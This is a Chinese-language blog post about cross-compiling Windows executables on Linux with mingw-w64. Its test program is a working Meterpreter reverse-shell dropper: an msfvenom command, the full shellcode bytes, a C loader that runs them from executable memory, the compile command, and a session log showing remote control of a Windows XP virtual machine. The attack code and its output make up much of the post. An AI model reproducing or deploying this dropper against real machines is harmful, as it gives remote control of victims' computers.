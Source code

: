 # 尝试在 Linux 下编译 exe 可执行文件


<!--more-->
# 序

最近一直在想有没有什么办法可以在 Linux 环境下编译 Windows 中可以运行的 exe 文件，由于自己没有 Windows 环境， 就算开虚拟机也多多少少有些不方便..

于是就去谷歌了一下.. 发现办法是有的.

这种办法叫做交叉编译, 要用到交叉编译器

我们看看维基百科上怎么说

>交叉编译器（英语：Cross compiler）是指一个在某个系统平台下可以产生另一个系统平台的可执行文件的编译器。交叉编译器在目标系统平台（开发出来的应用程序序所运行的平台）难以或不容易编译时非常有用。 
>
>交叉编译器的存在对于从一个开发主机为多个平台编译代码是非常有必要的。直接在平台上编译有时行不通，例如在一个嵌入式系统的单片机 ，因为它们没有操作系统，所以直接编译行不通。 
>
>交叉编译器和源代码至源代码编译器不同，交叉编译器用于二进制代码的跨平台软件开发，而源到源编译器是将某种编程语言的程序源代码作为输入，生成以另一种编程语言构成的等效源代码的编译器，但两者都是编程工具。 
>
>rel: https://zh.wikipedia.org/zh-hans/%E4%BA%A4%E5%8F%89%E7%B7%A8%E8%AD%AF%E5%99%A8

概念就是这样..

# mingw-w64
这大概是个交叉编译器了

看看官网怎么说

> Mingw-w64 is an advancement of the original mingw.org project, created to support the GCC compiler on Windows systems. It has forked it in 2007 in order to provide support for 64 bits and new APIs. It has since then gained widespread use and distribution. 
>
>rel: https://mingw-w64.org/doku.php

好的接下来我们就安装它， 这里 Arch 就直接从 pacman 装上了

```text
$ sudo pacman -S mingw-w64
```

![](/img/2021-04-26-14-32-57屏幕截图.png)
![](/img/2021-04-26-14-33-58屏幕截图.png)

# 开始编译

那么， 装完之后就可以开始编译了

我打算编译一个 payload 试试看，嘿嘿


首先我们先用 `msfvenom` 生成一段 `shellcode`
```txt
$ msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=192.168.0.112 LPORT=3333 -f c >> shellcode.c
```
---

```c
unsigned char buf[] = 
"\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x89\xe5\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x0f\xb7\x4a\x26\x31\xff\x8b\x72\x28"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49"
"\x75\xef\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78"
"\x85\xc0\x74\x4c\x01\xd0\x8b\x48\x18\x8b\x58\x20\x50\x01\xd3"
"\x85\xc9\x74\x3c\x31\xff\x49\x8b\x34\x8b\x01\xd6\x31\xc0\xac"
"\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24"
"\x75\xe0\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c"
"\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59"
"\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12\xe9\x80\xff\xff\xff\x5d"
"\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26"
"\x07\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\x6d\xa6\x24\x38\x68\x02"
"\x00\x35\x16\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea"
"\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
"\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00"
"\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83"
"\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a"
"\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57"
"\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00"
"\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5\x57\x68"
"\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff"
"\xff\xff\xe9\x9b\xff\xff\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb"
"\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";
```
---

然后编写我们的代码

```c
#include<windows.h>
#include<stdio.h>

unsigned char shellcode[] =
"\xfc\xe8\x8f\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x0f\xb7\x4a\x26\x8b\x72\x28\x31\xff"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49"
"\x75\xef\x52\x8b\x52\x10\x8b\x42\x3c\x57\x01\xd0\x8b\x40\x78"
"\x85\xc0\x74\x4c\x01\xd0\x50\x8b\x48\x18\x8b\x58\x20\x01\xd3"
"\x85\xc9\x74\x3c\x31\xff\x49\x8b\x34\x8b\x01\xd6\x31\xc0\xc1"
"\xcf\x0d\xac\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24"
"\x75\xe0\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c"
"\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59"
"\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12\xe9\x80\xff\xff\xff\x5d"
"\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26"
"\x07\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x00\x70\x68\x02"
"\x00\x0d\x05\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea"
"\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
"\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00"
"\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83"
"\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a"
"\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57"
"\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00"
"\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5\x57\x68"
"\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff"
"\xff\xff\xe9\x9b\xff\xff\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb"
"\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";

void main(){
    printf("啊哈！你中毒啦！");
    //ShellExecute(NULL, _T("open"), _T("explorer.exe"), _T("https://www.baiud.com"), NULL, SW_SHOW);
    LPVOID Memory = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(Memory, shellcode, sizeof(shellcode));
    ((void(*)())Memory)();
}
```
> PS: 这是抄的(bushi)

接下来进行编译

```txt
$ i686-w64-mingw32-gcc-10.2.0 payload.c -o payload.exe -v
```

没有任何报错之后，丢进虚拟机里运行, 如果 meterpreter 能够上线则说明编译是有效的

# 检验

![](/img/2021-05-07-18-18-28屏幕截图.png)

```txt
[*] Started reverse TCP handler on 192.168.0.112:3333 
[*] Sending stage (175174 bytes) to 192.168.0.113
[*] Meterpreter session 1 opened (192.168.0.112:3333 -> 192.168.0.113:1045) at 2021-05-07 18:18:17 +0800

meterpreter > sysinfo
Computer        : CHINA-74ED62096
OS              : Windows XP (5.1 Build 2600, Service Pack 3).
Architecture    : x86
System Language : zh_CN
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```

我们直接丢进去跑...

emmm 虽然字乱码了。

不过连接是建立了，那么说明编译是有效的～


